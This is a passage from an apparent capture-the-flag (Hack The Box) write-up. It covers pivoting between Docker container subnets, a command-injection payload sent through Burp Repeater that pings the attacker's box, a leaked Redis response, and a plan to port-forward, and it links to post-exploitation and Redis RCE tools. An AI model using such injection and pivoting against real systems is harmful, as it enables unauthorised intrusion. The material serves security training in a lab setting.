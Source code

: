 We have:

- 172.19.0.3/16
- 172.20.0.3/16

The previous container had:

- 172.18.0.2/16
- 172.19.0.4/16

What if only 18 can talk to us but 19 cannot.

Change command in Repeater:

	ippsec=ping -c1 10.10.16.12	// our kali box

```
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 12:47:31 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.0.30
Vary: Accept-Encoding
Content-Length: 115
Connection: close
Content-Type: text/html; charset=UTF-8

REDIS0008ú	redis-ver4.0.9ú
redis-bitsÀ@úctimeÂDÙÚaúused-memÂ0î
```

This box cannot talk to our machine, but it can talk to the web server so we can do another port forward to listen on the web server and direct it back to us.

References
----
<iframe width="560" height="315" src="https://www.youtube.com/embed/Yp4oxoQIBAM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html